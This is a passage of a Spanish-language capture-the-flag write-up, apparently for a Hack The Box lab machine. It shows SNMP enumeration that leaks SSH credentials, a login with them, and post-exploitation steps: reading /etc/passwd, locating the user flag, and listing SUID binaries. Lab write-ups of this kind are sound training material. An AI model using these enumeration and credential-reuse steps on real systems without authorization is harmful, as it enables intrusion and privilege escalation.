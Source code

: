 Primero podemos probar con la cadena que viene por defecto, esta es `public`, si no funciona probaremos con fuerza bruta hasta que encontremos la cadena correcta.

```plaintext
❯ snmpwalk -v 1 -c public 10.10.11.136 > snmpenum
```

El output del escaneo es muy extenso, en específico son 6950 líneas por lo que tendremos que filtrar por palabras clave. Buscando y buscando por el archivo acabo encontrando unas credenciales. 

```plaintext
HOST-RESOURCES-MIB::hrSWRunParameters.827 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
```

Probamos las credenciales encontradas para autenticarnos contra SSH y... ¡estamos dentro!

# Post-explotación

Si intentamos leer la flag del usuario veremos que no se encuentra en el home de nuestro usuario. Vamos a buscar donde se encuentra.

```plaintext
❯ find / -name user.txt 2>/dev/null
/home/matt/user.txt
```

No podemos leer el contenido debido a que no tenemos permisos de lectura.

```plaintext
❯ ls -l user.txt 
-rw-r----- 1 root matt 33 May 29 23:28 user.txt
```

Ya que no tenemos permisos tendremos que ser capaces de convertirnos en el usuario `matt`, empezaremos enumerando los usuarios existentes a nivel de sistema por si hubiese otros usuarios.

```plaintext
❯ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```

Vamos a comprobar si nuestro usuario pertenece a algún grupo interesante.

```plaintext
❯ groups daniel 
daniel : daniel
```

De momento no tenemos nada interesante, podemos probar si existe algún binario potencial con permisos SUID.

```plaintext
❯ find / -perm -u=s 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
					---SKIP---
```
